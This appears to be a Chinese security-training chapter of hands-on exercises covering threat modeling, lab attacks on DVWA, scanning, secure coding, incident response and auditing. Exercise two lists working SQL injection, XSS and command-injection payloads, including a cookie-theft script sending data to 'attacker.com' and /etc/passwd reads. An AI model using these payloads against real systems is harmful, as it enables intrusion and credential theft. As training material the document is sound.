


## 练习方法

本章练习方法按照"理解→动手→排查→综合→设计"五个层次递进设计，覆盖从入门到精通的完整能力培养路径。每个练习都包含明确的目标、可执行的步骤和可量化的检查标准。建议按顺序完成，累计用时约 8-10 小时。



---

### 练习一：STRIDE 威胁建模实战（预计 30 分钟）

**目标**：能够对一个真实系统完成完整的威胁建模流程，包括数据流图绘制、STRIDE 分析、DREAD 风险评估、缓解措施确定。

#### 步骤一：选定建模对象（5 分钟）

选择一个你正在开发或熟悉的系统，例如：
- 个人博客系统（含用户注册、文章发布、评论功能）
- 电商小程序（含用户登录、商品浏览、下单支付）
- 内部管理后台（含登录认证、数据查看、操作审计）

#### 步骤二：绘制数据流图（10 分钟）

使用 Mermaid 或手绘，画出系统的数据流图（DFD）。标注以下元素：

数据流图四大元素：
┌─────────────┐     ┌─────────────┐
│   外部实体    │     │   外部实体    │
│  (用户/浏览器) │     │  (支付网关)   │
└──────┬──────┘     └──────┬──────┘
       │                    │
       ↓                    ↓
┌────────────────────────────────────┐
│            处理过程                  │
│  ┌──────────┐    ┌──────────┐     │
│  │ Web服务器 │───→│ 数据库    │     │
│  └──────────┘    └──────────┘     │
│       │              │            │
│       ↓              ↓            │
│  ┌──────────────────────┐         │
│  │    数据存储            │         │
│  │  (用户表/订单表)       │         │
│  └──────────────────────┘         │
└────────────────────────────────────┘

具体做法：
1. 识别所有外部实体（用户、第三方服务、管理员）
2. 识别所有处理过程（登录、注册、下单、支付回调等）
3. 识别所有数据存储（数据库、缓存、文件系统）
4. 用箭头标注数据流向，标注传输的数据类型

#### 步骤三：应用 STRIDE 分析（10 分钟）

对数据流图中的每个元素逐一应用 STRIDE：

```markdown
威胁建模工作表（每个元素一行）：

| 元素 | Spoofing | Tampering | Repudiation | Info Disclosure | EoP | DoS |
|------|----------|-----------|-------------|-----------------|-----|-----|
| 用户登录接口 | 冒充合法用户登录 | 篡改登录凭据 | 否认登录行为 | 密码明文泄露 | 获取管理员权限 | 暴力破解耗尽资源 |
| 数据库存储 | 伪造数据库连接 | 篡改用户数据 | 否认数据修改 | 数据库泄露 | 提权读取敏感表 | 资源耗尽导致拒绝服务 |
| ... | ... | ... | ... | ... | ... | ... |
```

#### 步骤四：DREAD 风险评估（5 分钟）

对每个识别出的威胁进行 DREAD 评分：

DREAD 评分标准：
  D（Damage）    - 损害程度：1=低 5=灾难性
  R（Reproducibility） - 可复现性：1=极难 5=总是可复现
  E（Exploitability）  - 可利用性：1=需要高级技能 5=脚本小子可用
  A（Affected Users）  - 影响用户：1=单用户 5=全部用户
  D（Discoverability） - 可发现性：1=极难发现 5=公开可见

风险等级 = (D+R+E+A+D) / 5
  ≥ 4.0  → 严重（立即修复）
  3.0-3.9 → 高（7天内修复）
  2.0-2.9 → 中（30天内修复）
  < 2.0  → 低（计划修复）

**检查标准**：
- [ ] 数据流图包含所有外部实体、处理过程和数据存储
- [ ] 每个元素都完成了 STRIDE 六维度分析
- [ ] 高风险威胁（DREAD ≥ 3.0）都有对应的缓解措施
- [ ] 能用自己的话解释每个威胁的攻击方式和危害

---

### 练习二：Web 安全靶场实操（预计 60 分钟）

**目标**：在安全靶场环境中亲手实践 OWASP Top 10 中的核心 Web 攻击，理解攻击原理并实施防御。

#### 步骤一：搭建 DVWA 靶场环境（15 分钟）

```bash
# 方法一：使用 Docker 快速部署（推荐）
docker pull vulnerables/web-dvwa
docker run -d -p 8080:80 --name dvwa vulnerables/web-dvwa

# 访问 http://localhost:8080
# 默认用户名: admin  密码: password
# 首次访问需要点击 "Create / Reset Database" 初始化

# 方法二：使用 OWASP Juice Shop（更现代）
docker pull bkimminich/juice-shop
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop
# 访问 http://localhost:3000
```

#### 步骤二：练习 SQL 注入（15 分钟）

在 DVWA 中将安全等级设为 Low，完成以下攻击：

```bash
# 1. 基础认证绕过
# 在 SQL Injection 模块的 User ID 输入框中输入：
' OR '1'='1
# 观察返回结果——绕过了认证，显示了所有用户

# 2. 联合查询注入
# 获取数据库版本和当前数据库名：
' UNION SELECT version(),database()--

# 3. 提取表名
' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema=database()--

# 4. 提取用户凭据
# 假设用户表名为 users：
' UNION SELECT user,password FROM users--
```

**理解原理**：SQL 注入的本质是用户输入被错误地解释为 SQL 代码。当输入 `' OR '1'='1` 时，实际执行的 SQL 变成了：
```sql
SELECT * FROM users WHERE user_id='' OR '1'='1'
-- '1'='1' 恒为真，所以返回所有记录
```

#### 步骤三：练习 XSS 攻击（15 分钟）

在 DVWA 的 Reflected XSS 和 Stored XSS 模块中：

```bash
# 1. 反射型 XSS
# 在 Name 输入框输入：
<script>alert('XSS')</script>
# 观察弹窗——证明 JavaScript 在受害者浏览器中执行

# 2. 进阶：窃取 Cookie
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>

# 3. 绕过基础过滤
# 如果 <script> 被过滤，尝试：

<svg onload=alert('XSS')>
<body onload=alert('XSS')>

# 4. DOM 型 XSS
# 在 URL Fragment 中注入：
http://localhost:8080/vulnerabilities/xss_r/?name=
```

#### 步骤四：练习命令注入（15 分钟）

在 DVWA 的 Command Injection 模块中：

```bash
# 1. 基础命令注入
# 在 Ping 输入框中输入：
127.0.0.1; cat /etc/passwd
# 分号分隔了两条命令，第二条被执行

# 2. 管道注入
127.0.0.1 | whoami

# 3. 反引号注入
127.0.0.1`id`

# 4. 绕过空格过滤
127.0.0.1;cat{/etc/passwd}
127.0.0.1$IFS/cat$IFS/etc/passwd
```

**检查标准**：
- [ ] 成功搭建 DVWA 或 Juice Shop 靶场环境
- [ ] 能完成 SQL 注入的认证绕过和数据提取
- [ ] 能完成至少两种类型的 XSS 攻击
- [ ] 能理解每种攻击的原理，而不只是机械操作
- [ ] 能说出对应的防御措施（参数化查询、输出编码、输入过滤）

---

### 练习三：安全工具实操（预计 60 分钟）

**目标**：掌握 Nmap 网络扫描和 OWASP ZAP 动态扫描两大核心安全工具的基本用法。

#### 步骤一：Nmap 网络扫描（30 分钟）

```bash
# 安装 Nmap
sudo apt-get update &amp;&amp; sudo apt-get install -y nmap

# 1. 基础端口扫描
nmap 127.0.0.1
# 观察开放端口和运行服务

# 2. 服务版本检测
nmap -sV -sC 127.0.0.1
# -sV: 检测服务版本
# -sC: 使用默认脚本

# 3. 操作系统检测
nmap -O 127.0.0.1

# 4. 全面扫描（TCP全端口+脚本+版本+OS）
nmap -A -p- 127.0.0.1
# -A: 全面扫描模式
# -p-: 扫描所有65535个端口

# 5. 扫描 Docker 中的 DVWA 靶场
nmap -sV -p 8080 127.0.0.1

# 6. UDP 扫描（关键服务如 DNS/SNMP）
sudo nmap -sU -p 53,161 127.0.0.1
```

**输出解读练习**：
```bash
# Nmap 输出中关键字段的含义：
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
# ↑端口  ↑状态  ↑服务    ↑具体版本

# 关注信息：
# - open   → 端口开放，有服务监听
# - closed → 端口可达但无服务
# - filtered → 被防火墙/规则过滤，无法确认状态
```

#### 步骤二：OWASP ZAP 动态扫描（30 分钟）

```bash
# 安装 OWASP ZAP（Docker 方式）
docker pull ghcr.io/zaproxy/zaproxy:stable

# 1. 启动 ZAP API 模式
docker run -u zap -p 8090:8090 -p 8080:8080 \
  -i ghcr.io/zaproxy/zaproxy:stable zap.sh \
  -daemon -host 0.0.0.0 -port 8090 \
  -config api.disablekey=true \
  -config api.addrs.addr.name=.* \
  -config api.addrs.addr.regex=true

# 2. 使用 ZAP 快速扫描 DVWA
# 方式 A：通过 Docker 网络连接
docker run --network container:dvwa \
  ghcr.io/zaproxy/zaproxy:stable \
  zap-full-scan.py -t http://localhost:80

# 方式 B：生成 HTML 报告
docker run --network container:dvwa \
  -v $(pwd)/reports:/zap/wrk:rw \
  ghcr.io/zaproxy/zaproxy:stable \
  zap-full-scan.py -t http://localhost:80 \
  -r zap-report.html
```

**ZAP 扫描结果解读**：

ZAP 按风险等级分类报告发现的问题：

| 风险等级 | 颜色 | 含义 | 处理优先级 |
|----------|------|------|-----------|
| High（高） | 红色 | 可被直接利用的严重漏洞 | 立即修复 |
| Medium（中） | 橙色 | 存在安全隐患，需条件利用 | 7天内修复 |
| Low（低） | 黄色 | 信息泄露或低风险配置问题 | 计划修复 |
| Informational | 蓝色 | 信息性发现，非漏洞 | 了解即可 |

**检查标准**：
- [ ] 能使用 Nmap 完成基础端口扫描和服务检测
- [ ] 能解读 Nmap 扫描输出中的关键信息
- [ ] 能使用 OWASP ZAP 对 Web 应用进行自动化扫描
- [ ] 能理解 ZAP 报告中不同风险等级的含义
- [ ] 能将扫描发现的漏洞与 OWASP Top 10 对应

---

### 练习四：安全编码实战（预计 90 分钟）

**目标**：在实际代码中识别并修复安全漏洞，掌握安全编码的核心实践。

#### 步骤一：安全头部配置（20 分钟）

为一个 Web 应用配置完整的 HTTP 安全响应头：

```nginx
# Nginx 安全头部配置模板
server {
    listen 443 ssl http2;
    server_name your-app.example.com;

    # ===== TLS 安全配置 =====
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384;
    ssl_prefer_server_ciphers on;
    ssl_session_timeout 1d;
    ssl_session_cache shared:SSL:10m;

    # ===== 安全响应头 =====
    
    # 强制 HTTPS（HSTS）- 告诉浏览器只使用 HTTPS
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;

    # 防止 MIME 类型嗅探 - 防止浏览器猜测文件类型执行恶意内容
    add_header X-Content-Type-Options "nosniff" always;

    # 防止点击劫持 - 禁止页面被嵌入 iframe
    add_header X-Frame-Options "DENY" always;

    # 内容安全策略（CSP）- 限制可加载资源的来源
    add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self'; connect-src 'self'; frame-ancestors 'none'; base-uri 'self'; form-action 'self'" always;

    # 控制 Referrer 信息泄露
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;

    # 禁用不必要的浏览器 API
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=(), payment=()" always;

    # 禁用浏览器缓存敏感页面
    add_header Cache-Control "no-store, no-cache, must-revalidate" always;
    add_header Pragma "no-cache" always;

    # ===== Cookie 安全 =====
    # 在应用代码中设置 Cookie 时添加以下属性：
    # Set-Cookie: session_id=xxx; Secure; HttpOnly; SameSite=Lax; Path=/
}
```

**验证配置生效**：
```bash
# 检查所有安全头是否正确设置
curl -sI https://your-app.example.com | grep -iE \
  '(strict-transport|x-content-type|x-frame|content-security|referrer-policy|permissions-policy)'

# 使用在线工具验证
# https://securityheaders.com/?q=your-app.example.com
```

#### 步骤二：参数化查询改造（25 分钟）

将存在 SQL 注入漏洞的代码改造为安全版本：

```python
# ============================================
# 改造前（存在 SQL 注入漏洞）
# ============================================
import sqlite3

def unsafe_login(username, password):
    conn = sqlite3.connect('app.db')
    cursor = conn.cursor()
    
    # ❌ 危险：字符串拼接，攻击者可注入任意 SQL
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    cursor.execute(query)
    return cursor.fetchone()

# 攻击示例：
# username: admin' --
# 实际执行: SELECT * FROM users WHERE username='admin' --' AND password='xxx'
# -- 注释掉了密码验证，直接登录成功


# ============================================
# 改造后（安全的参数化查询）
# ============================================
import sqlite3
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError

ph = PasswordHasher(
    time_cost=3,        # 迭代次数
    memory_cost=65536,  # 内存消耗 64MB
    parallelism=4       # 并行线程数
)

def safe_login(username, password):
    # 输入验证（白名单）
    import re
    if not re.match(r'^[a-zA-Z0-9_]{3,32}$', username):
        raise ValueError("Invalid username format")
    if len(password) < 8 or len(password) > 128:
        raise ValueError("Invalid password length")
    
    conn = sqlite3.connect('app.db')
    cursor = conn.cursor()
    
    # ✅ 安全：参数化查询，用户输入永远作为数据值处理
    query = "SELECT id, username, password_hash FROM users WHERE username = ?"
    cursor.execute(query, (username,))
    user = cursor.fetchone()
    
    if user:
        try:
            # 验证密码哈希
            ph.verify(user[2], password)
            return {"id": user[0], "username": user[1]}
        except VerifyMismatchError:
            return None
    return None

def register_user(username, password):
    """安全的用户注册"""
    import re
    import secrets
    
    # 输入验证
    if not re.match(r'^[a-zA-Z0-9_]{3,32}$', username):
        raise ValueError("Invalid username format")
    if len(password) < 12:
        raise ValueError("Password must be at least 12 characters")
    
    # 哈希密码（Argon2id）
    password_hash = ph.hash(password)
    
    conn = sqlite3.connect('app.db')
    cursor = conn.cursor()
    
    # 参数化插入
    cursor.execute(
        "INSERT INTO users (username, password_hash, created_at) VALUES (?, ?, datetime('now'))",
        (username, password_hash)
    )
    conn.commit()
    return True
```

#### 步骤三：XSS 防御实现（20 分钟）

```python
# ============================================
# XSS 防御：输出编码
# ============================================
import html
import re
from urllib.parse import quote

def safe_output(value, context='html'):
    """
    根据输出上下文进行安全编码
    不同上下文需要不同的编码方式
    """
    if value is None:
        return ''
    
    if context == 'html':
        # HTML 上下文：转义 HTML 特殊字符
        return html.escape(str(value))
    
    elif context == 'javascript':
        # JavaScript 上下文：转义 JS 特殊字符
        # 注意：这比简单转义更严格
        value = str(value)
        value = value.replace('\\', '\\\\')
        value = value.replace("'", "\\'")
        value = value.replace('"', '\\"')
        value = value.replace('\n', '\\n')
        value = value.replace('\r', '\\r')
        value = value.replace('<', '\\x3c')
        value = value.replace('>', '\\x3e')
        value = value.replace('&amp;', '\\x26')
        return value
    
    elif context == 'url':
        # URL 上下文：URL 编码
        return quote(str(value), safe='')
    
    elif context == 'css':
        # CSS 上下文：限制允许的字符
        value = str(value)
        value = re.sub(r'[^a-zA-Z0-9\s\-_]', '', value)
        return value
    
    return html.escape(str(value))


# Flask 中的使用示例
from flask import Flask, render_template_string, request

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('q', '')
    
    # ❌ 危险：直接将用户输入插入模板
    # return render_template_string(f"<h1>搜索: {query}</h1>")
    
    # ✅ 安全：使用模板引擎自动编码 + 手动编码
    safe_query = html.escape(query)
    return render_template_string(
        "<h1>搜索: {{ query }}</h1>",
        query=query  # Jinja2 模板自动 HTML 编码
    )


# CSP 头配置（双重防御）
@app.after_request
def set_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "           # 只允许同源脚本
        "style-src 'self' 'unsafe-inline'; "  # 允许内联样式（可选）
        "img-src 'self' data: https:; "  # 允许图片来源
        "font-src 'self'; "
        "connect-src 'self'; "          # 只允许同源 AJAX
        "frame-ancestors 'none'; "      # 禁止 iframe 嵌入
        "base-uri 'self'; "             # 限制 base 标签
        "form-action 'self'"            # 限制表单提交目标
    )
    return response
```

#### 步骤四：安全审计自查（25 分钟）

对自己的项目（或一个开源项目）执行以下安全自查：

```bash
# 1. 依赖漏洞扫描
# Python 项目
pip install safety
pip-audit

# Node.js 项目
npm audit
npx snyk test

# 通用扫描（支持多种语言）
docker run --rm -v $(pwd):/src aquasec/trivy fs /src

# 2. 密钥泄露检测
# 安装 gitleaks
docker run --rm -v $(pwd):/src zricethezav/gitleaks detect -s /src -v

# 手动搜索常见密钥模式
grep -rn --include="*.{py,js,yaml,yml,json,env}" \
  -E "(api_key|secret_key|password|token)\s*[:=]\s*['\"]" .

# 3. 静态代码安全分析（SAST）
# Python - 使用 Semgrep
pip install semgrep
semgrep --config auto .

# Python - 使用 Bandit
pip install bandit
bandit -r . -f json -o bandit-report.json

# 4. 不安全的配置文件检查
# 检查是否有 .env 文件被提交
git ls-files | grep -E '\.(env|pem|key|p12)$'

# 检查 .gitignore 是否包含敏感文件
cat .gitignore | grep -E '(\.env|\.pem|\.key)'
```

**安全自查清单**：
```markdown
□ 所有 SQL 查询使用参数化/ORM
□ 所有用户输入经过验证和编码
□ 密码使用 Argon2id/bcrypt 哈希存储
□ 不在代码中硬编码任何密钥或密码
□ .gitignore 正确配置，排除敏感文件
□ 安全响应头完整配置
□ 依赖库无已知高危漏洞
□ 错误信息不暴露内部实现细节
□ 日志中不记录敏感数据（密码/令牌）
□ CORS 策略正确配置，不使用通配符 *
```

**检查标准**：
- [ ] 安全响应头配置完整且验证生效
- [ ] 完成 SQL 注入防御代码改造（参数化查询）
- [ ] 完成 XSS 防御实现（输出编码 + CSP）
- [ ] 对一个项目完成安全自查扫描
- [ ] 理解每个安全措施背后的原理和防御目标

---

### 练习五：安全事件响应模拟（预计 90 分钟）

**目标**：模拟真实安全事件场景，练习从检测、分析、遏制到恢复的完整事件响应流程。

#### 步骤一：准备事件响应工具箱（15 分钟）

```bash
# 安装必要的诊断工具
sudo apt-get install -y \
  net-tools tcpdump nmap strace \
  sysdig jq

# 验证工具安装
which tcpdump nmap sysdig jq
```

#### 步骤二：模拟场景 — Web 服务器被入侵（40 分钟）

**场景描述**：监控系统检测到 Web 服务器 CPU 异常飙高，同时有大量异常外连请求。你作为安全响应人员，需要完成以下任务：

**Phase 1: 检测与确认（10 分钟）**

```bash
# 1. 检查 CPU 使用情况，找到异常进程
top -c
# 找出 CPU 占用异常的进程

# 2. 检查网络连接，识别异常外连
ss -tunap | grep ESTABLISHED
# 关注：非标准端口的出站连接、连接到可疑 IP 的进程

# 3. 检查系统日志中的异常
sudo journalctl -u nginx --since "1 hour ago" | grep -iE "(error|warning|403|500)"
sudo tail -100 /var/log/auth.log
sudo tail -100 /var/log/syslog | grep -i "suspicious\|failed\|error"

# 4. 检查最近修改的文件
find /var/www -mmin -60 -type f 2>/dev/null  # 最近1小时修改的文件
find /tmp -type f -executable 2>/dev/null     # /tmp 中的可执行文件（常见暂存区）
```

**Phase 2: 分析与取证（15 分钟）**

```bash
# 1. 检查异常进程的详细信息
# 用 top 中发现的 PID 替换 <PID>
ls -la /proc/<PID>/exe         # 可执行文件路径
ls -la /proc/<PID>/fd/         # 打开的文件描述符
cat /proc/<PID>/cmdline | xargs -0 echo  # 完整命令行

# 2. 检查 crontab 是否被植入定时任务
crontab -l
ls -la /etc/cron.d/
cat /var/spool/cron/crontabs/*

# 3. 检查 SSH 后门
cat ~/.ssh/authorized_keys      # 检查是否有异常公钥
diff <(ls -la /usr/sbin/sshd) <(strings /usr/sbin/sshd | head -5)

# 4. 网络流量抓包分析
sudo tcpdump -i eth0 -c 100 -nn -w capture.pcap
# 用 Wireshark 或 tshark 分析
sudo tshark -r capture.pcap -Y "http.request" -T fields -e http.host -e http.request.uri

# 5. 检查 Web 应用文件完整性
find /var/www/html -name "*.php" -newer /var/www/html/index.html  # 最近修改的PHP文件
grep -rn "eval\|base64_decode\|system\|exec\|passthru" /var/www/html/  # 可疑函数
```

**Phase 3: 遏制与修复（15 分钟）**

```bash
# 1. 隔离受影响系统（阻止攻击者继续访问）
# 封禁可疑 IP
sudo iptables -A INPUT -s <SUSPICIOUS_IP> -j DROP

# 2. 终止恶意进程
sudo kill -9 <MALICIOUS_PID>

# 3. 清除恶意文件
# 删除 Web 目录中的后门文件
sudo rm -f /var/www/html/suspicious_file.php

# 4. 重置被泄露的凭据
# 重置数据库密码
# 重置管理员密码
# 重置所有 session/token

# 5. 修复漏洞入口
# 更新 Web 应用代码
# 修补已知漏洞
# 加固配置
```

#### 步骤三：编写事件报告（35 分钟）

按照以下模板编写安全事件报告：

```markdown
# 安全事件报告

## 基本信息
- 事件编号：SEC-2024-001
- 发现时间：YYYY-MM-DD HH:MM
- 响应人员：[你的名字]
- 影响范围：Web 服务器（10.0.1.100）

## 事件摘要
[一句话描述：什么系统出了什么问题，影响有多大]

## 时间线
| 时间 | 事件 | 操作 |
|------|------|------|
| HH:MM | 监控告警触发 | 确认异常 |
| HH:MM | 初步分析 | 识别恶意进程 |
| HH:MM | 遏制措施 | 隔离系统、封禁IP |
| HH:MM | 根因分析 | 定位漏洞入口 |
| HH:MM | 修复完成 | 清除后门、修复漏洞 |
| HH:MM | 恢复验证 | 确认系统正常 |

## 根因分析
[漏洞是什么？怎么被利用的？攻击路径是什么？]

## 影响评估
- 数据泄露：[有/无]，涉及哪些数据
- 服务中断：[有/无]，持续多久
- 业务影响：[描述]

## 修复措施
1. [短期修复：清除恶意文件、重置密码]
2. [中期修复：修补漏洞、更新配置]
3. [长期改进：安全架构优化、监控增强]

## 经验教训
[这次事件暴露了什么问题？如何避免再次发生？]
```

**检查标准**：
- [ ] 能使用 top/ss/journalctl 等工具检测异常
- [ ] 能分析进程、网络连接、日志，定位问题根因
- [ ] 能实施遏制措施（封禁IP、终止进程、清除后门）
- [ ] 能编写结构化的安全事件报告
- [ ] 理解事件响应的完整流程（PICERL模型：准备→识别→遏制→根除→恢复→总结）

---

### 练习六：综合安全审计（预计 120 分钟）

**目标**：对一个完整的 Web 应用项目进行系统性安全审计，输出专业的安全审计报告。

#### 步骤一：选定审计目标（10 分钟）

选择一个开源 Web 项目进行审计，推荐：
- [OWASP Juice Shop](https://github.com/juice-shop/juice-shop)（Node.js）
- [DVWA](https://github.com/digininja/DVWA)（PHP）
- [WebGoat](https://github.com/WebGoat/WebGoat)（Java）
- 你自己的项目

#### 步骤二：代码层面审计（40 分钟）

对项目进行以下维度的代码审计：

```bash
# 1. 自动化扫描（15分钟）
# 静态分析
semgrep --config auto --json -o semgrep-report.json .
# 依赖扫描
npm audit --json > npm-audit.json  # 或 pip-audit / trivy fs .
# 密钥泄露
gitleaks detect -s . -f json -o gitleaks-report.json

# 2. 手动代码审查清单（25分钟）
```

**手动代码审查维度**：

| 审计维度 | 检查内容 | 工具/方法 |
|----------|---------|-----------|
| 认证机制 | 密码存储方式、登录限流、会话管理 | 检查密码哈希算法、Session配置 |
| 授权控制 | 权限校验是否在服务端、是否有越权风险 | 检查每个API端点的权限检查 |
| 输入验证 | 是否有参数化查询、输出编码 | grep SQL拼接、grep innerHTML |
| 错误处理 | 是否暴露堆栈跟踪、调试信息 | 检查异常处理代码 |
| 配置安全 | 调试模式、默认凭据、CORS配置 | 检查配置文件 |
| 依赖安全 | 是否有已知漏洞的第三方库 | npm audit / pip-audit |
| 日志安全 | 是否记录敏感信息、日志完整性 | grep password/token在日志输出中 |
| 加密传输 | TLS配置、HSTS、证书管理 | curl检查响应头 |

#### 步骤三：运行时审计（40 分钟）

```bash
# 1. 启动目标应用
# 根据项目类型启动（如 Juice Shop）
docker run -d -p 3000:3000 bkimminich/juice-shop

# 2. 使用 OWASP ZAP 扫描
docker run --rm --network host \
  ghcr.io/zaproxy/zaproxy:stable \
  zap-full-scan.py -t http://localhost:3000 \
  -r zap-full-report.html \
  -x zap-full-report.xml

# 3. 手动测试关键功能
# - 登录/注册功能：暴力破解、SQL注入
# - 搜索功能：XSS、命令注入
# - 文件上传：文件类型验证、大小限制
# - API 端点：未授权访问、IDOR（不安全的直接对象引用）
# - 会话管理：Session固定、Token安全性

# 4. HTTP 安全头部检查
curl -sI http://localhost:3000 | grep -iE \
  '(strict-transport|x-content-type|x-frame|content-security|referrer-policy|permissions-policy|x-xss)'
```

#### 步骤四：编写审计报告（30 分钟）

```markdown
# 安全审计报告

## 审计概述
- 审计目标：[项目名称和版本]
- 审计日期：YYYY-MM-DD
- 审计方法：代码审计 + 自动化扫描 + 手动测试
- 审计范围：认证、授权、输入验证、配置安全、依赖安全

## 发现汇总
| 等级 | 数量 | 说明 |
|------|------|------|
| 严重（Critical） | N | 可直接利用，导致系统被完全控制 |
| 高危（High） | N | 可导致数据泄露或服务中断 |
| 中危（Medium） | N | 需要特定条件才能利用 |
| 低危（Low） | N | 信息泄露或最佳实践偏离 |

## 详细发现

### [CRITICAL-001] SQL 注入漏洞
- **位置**：login.php 第 42 行
- **描述**：用户输入直接拼接到 SQL 查询中，可绕过认证
- **复现步骤**：在用户名输入框输入 `admin' --`
- **影响**：攻击者可获取管理员权限，读取/修改所有数据
- **修复建议**：使用参数化查询替代字符串拼接
- **修复代码**：
  ```php
  // Before: $sql = "SELECT * FROM users WHERE username='$username'";
  // After:
  $stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
  $stmt->execute([$username]);
  ```

### [HIGH-001] 缺少 CSP 头
- **位置**：Web 服务器配置
- **描述**：未配置 Content-Security-Policy 头
- **影响**：XSS 攻击更容易成功
- **修复建议**：添加 CSP 响应头

[继续列出其他发现...]

## 总体评估
[对项目安全状况的总体评价和改进建议]

**检查标准**：
- [ ] 完成至少一个开源项目的安全审计
- [ ] 自动化扫描和手动审查结合
- [ ] 审计报告包含发现、影响和修复建议
- [ ] 能将发现的漏洞与 OWASP Top 10 分类对应
- [ ] 理解安全审计的完整流程和方法论

---

## 学习路径建议

根据你的水平和时间，选择合适的练习路径：



| 路径 | 适合人群 | 包含练习 | 预计时间 |
|------|---------|---------|---------|
| 入门路径 | 刚接触安全的开发者 | 练习一、二、四 | 3 小时 |
| 进阶路径 | 有一定安全基础的工程师 | 练习二、三、四、五 | 5.5 小时 |
| 完整路径 | 想系统性掌握安全能力 | 全部六个练习 | 8-10 小时 |

---

## 推荐持续练习平台

完成上述练习后，建议在以下平台上持续提升安全技能：

| 平台 | 链接 | 特点 | 适合方向 |
|------|------|------|---------|
| Hack The Box | https://www.hackthebox.com | 真实机器渗透，难度分级 | 渗透测试、PWN |
| TryHackMe | https://www.tryhackme.com | 引导式学习路径，适合入门 | Web安全、网络基础 |
| OverTheWire | https://overthewire.org/wargames | 经典 Wargame，从 Bandit 开始 | Linux基础、密码学 |
| PortSwigger Academy | https://portswigger.net/web-security | Burp Suite 官方教程 | Web安全 |
| picoCTF | https://picoctf.org | CTF 比赛平台 | 综合安全 |
| DVWA | http://dvwa.co.uk | 本地靶场 | Web攻防基础 |
| OWASP Juice Shop | https://owasp.org/www-project-juice-shop/ | 现代 Web 靶场 | OWASP Top 10 |

---

*软件工程核心知识体系 · 第34章 · 练习方法*
